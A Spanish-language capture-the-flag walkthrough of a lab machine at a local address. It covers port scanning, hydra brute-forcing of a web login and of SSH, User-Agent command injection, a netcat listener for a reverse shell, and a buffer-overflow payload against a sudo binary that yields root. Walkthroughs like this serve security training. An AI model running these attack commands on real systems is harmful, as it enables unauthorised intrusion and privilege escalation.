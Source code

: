 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2
```

![image](https://github.com/user-attachments/assets/ef4ad12d-e455-4a13-b07f-1fe2f32fcd2e)

nmap reporta 2 servicios levantados, ssh y http asi que comienzo chequeando la web

![image](https://github.com/user-attachments/assets/41754477-d95b-4b33-994d-45a225b1558b)

me consigo con un panel de login, al parecer no es vulnerable a una inyeccion basica sql, asi que enumerare la web pero tampoco consigo nada por lo que ahora reviso el
codigo fuente y lo unico que puedo observar es un comentario 

![image](https://github.com/user-attachments/assets/86f43e38-1582-42b5-b654-9b0c4e83eb9f)

aunque no da ciertamente ninguna informacion, podria ser este el user para el panel de login por lo que aplicare un ataque de diccionario contra el panel

```ruby
hydra -l d1se0 -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:F=¡Ups! Las credenciales no son correctas. Intenta nuevamente."
```

![image](https://github.com/user-attachments/assets/7690764f-b119-4711-9633-006e4e92a393)

obtengo credenciales para el acceso asi que me logueo

![image](https://github.com/user-attachments/assets/c66f18e9-53a1-408f-8853-f9b596849bea)

en este punto intente varios vectores de ataque hasta dar con el vector correcto, el user-agent es vulnerable directamente a ejecucion de comandos!!!

![image](https://github.com/user-attachments/assets/94e9ee72-c0cb-4fca-993d-9ab9c47a1371)

asi que inspecciono un poco el sistema desde este punto

![image](https://github.com/user-attachments/assets/958cee1e-9f24-48c3-9b28-243ff56f9705)

existe un solo usuario en el sistema, en este punto podria lanzarme una `webshell` y ganar acceso directamente o intentar un ataque de diccionario contra el servicio `ssh` y el user `flow`

```ruby
hydra -l flow -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

por esta via no obtengo resultados asi que me lanzo una `webshell`

```ruby
nc -lnvp 4445 # me coloco en escucha con netcat
```

![image](https://github.com/user-attachments/assets/3f675cec-ab10-4a86-a6c9-70ed0b11841e)

## Escalada de Privilegios

### www-data

tratamiento de la terminal

```
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```

lo primero que realizo es una busqueda de archivos que pertenezcan al user `flow`

```ruby
find / -type f -user flow 2>/dev/null # buscamos archivos del user flow en el sistema
```

conseguirmos el archivo `/usr/bin/secret` que al leerlo obtenemos lo siguiente

![image](https://github.com/user-attachments/assets/f9a44958-e146-466d-914a-67cad8bc5c3f)

asi que decodifico 

```ruby
echo "MQYXGZJQNFZXI2DFMJSXG5CAEQSCC===" |base32 -d
```

y obtengo lo que parece ser la password de `flow` asi que la pruebo

![image](https://github.com/user-attachments/assets/76972d79-797e-4de0-8c67-faba9fea0132)

### flow

ahora como el user `flow` puedo ejecutar un binario como `root`

![image](https://github.com/user-attachments/assets/1ef82770-c76c-4aa6-a12e-f00c79bc8ed2)

![image](https://github.com/user-attachments/assets/022e9812-3921-4649-9b66-fe730f45d8b5)

algo interesante que veo es que el binario al no ser ejecutado como `root` lanza un mensaje adicional indicando que
no pudo abrir el archivo por permisos, asi que primero le hare reversing y analizarlo mejor 

![image](https://github.com/user-attachments/assets/2cd44df3-0662-4bee-b28c-6dcd75bb3218)

aqui puedo ver varios detalles dentro de la funcion `main`, comenzando por lo que parece ser que el tamano del buffer que 
almacena la entrada del usuario es de 76 byte, ademas veo que se hace uso de un condicional `if` para determinar el flujo del
programa dependiendo la entrada del usuario, por un lado si la entrada del usuario es igual a `0x726f6f74` entonces imprime el mensaje `"estas en modo administrador"` y llama a continuacion las funciones `write_key_to_file` & `execute_command` (al parecer al acceder al modo administrador es posible la ejecucion de comandos), en caso de ser la entrada diferente a `0x726f6f74` entonces imprime el mensaje `"estas en modo usuario"` y llama a las funciones `write_key_to_file` y `user_mode`.

Ahora analizare la funcion `write_key_to_file` que es la que me interesa ya que el binario interactua con un archivo (me di cuenta al ejecutar el binario sin sudo)

![image](https://github.com/user-attachments/assets/6021093e-1e7f-41b8-a7fe-3a1695938e86)

ahora en la funcion `write_key_to_file` puedo ver el archivo con el que esta interactuando >> `"/tmp/key_output.txt"`; ahora si reviso el archivo observo que imprime el valor de la `key`

![image](https://github.com/user-attachments/assets/230946cc-45a8-4749-bdf0-f15f6c18c614)

ahora intentare testear a ver si es posible cambiar el valor de la key

![image](https://github.com/user-attachments/assets/575ae2e7-454f-4250-9001-1f1e5e7981e9)

imprime un valor distinto, es decir, que a traves del input que le pasemos al binario varia la `key` y si paso el valor de la `key` a hexadecimal veo que su valor es `41414141`

![image](https://github.com/user-attachments/assets/b197144b-bfca-4ba2-8c95-6a997d57ec3b)

esto quiere decir que la key la he sobreescrito con las A's que pase en el input, y si recordamos el tamano del buffer 
que observamos en la funcion `main` indica que es de 76 byte por lo que le pasare 76 A y una B al final para ver si llego a sobreescribir la key con el valor de B  

![image](https://github.com/user-attachments/assets/113e9977-c19e-41a9-b011-c0d901a861f8)

la key ahora vale 66 y si lo paso a hexadecimal su valor es 42, es decir, B

![image](https://github.com/user-attachments/assets/0963b8b4-bf81-4b46-a513-90f90eda99fd)

como ya se que puedo manipular el valor de la `key` le pasare lo que solicita el binario `Tu clave sera "root" para entrar al modo administrador`, y como vimos en la funcion `main` espera `0x726f6f74` que es en efecto `root` asi que le envio el siguiente payload

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtoor
```

![image](https://github.com/user-attachments/assets/107bdb26-496f-41f1-9e38-df7a6aff0165)

he logrado acceder al modo administrador donde puedo ejecutar comandos, le paso `toor` y no `root` ya que se debe invertir el valor debido a que las maquinas actuales tienen arquitecturas `Little-Endian`, es decir, los bytes de una palabra se almacenan en orden inverso, del menos significativo al más significativo.

ahora solo me queda ejecutar un `/bin/bash` para obtener la `shell` como `root`

![image](https://github.com/user-attachments/assets/4484dce4-9e34-4906-842a-75441f8a9924)

### PWNED-ROOT













































